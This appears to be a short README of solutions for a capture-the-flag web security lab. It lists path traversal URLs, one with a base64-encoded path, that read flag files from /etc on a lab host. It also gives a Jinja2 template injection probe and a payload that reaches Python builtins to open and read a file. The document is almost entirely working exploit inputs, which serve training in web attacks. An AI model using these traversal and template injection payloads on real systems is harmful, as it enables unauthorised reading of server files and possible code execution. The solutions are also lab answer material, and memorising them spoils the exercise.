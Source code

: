 WIP

---
### Solutions:

- Task 0:
	URL: http://web0x07.hbtn/task0/download_file?filename=0-flag.txt&path=/etc

- Task 1:
	URL: http://web0x07.hbtn/task1/download_file?filename=1-flag.txt&path=..//etc

- Task 2:
	URL: http://web0x07.hbtn/task2/download_file?filename=&path=L2V0Yy8yLWZsYWcudHh0 = /etc/2-flag.txt

- Task 3:
	- Create a rapport at http://web0x07.hbtn/task3/create_rapport
		- Put {{5*5}} inside it to test Jinja2
		- Check output at http://web0x07.hbtn/task3/list_file
	- Create a Jinja2 payload to show file /etc/3-flag.txt
	- Payload: {{ cycler.__init__.__globals__['__builtins__']['open']('/etc/3-flag.txt').read() }} 
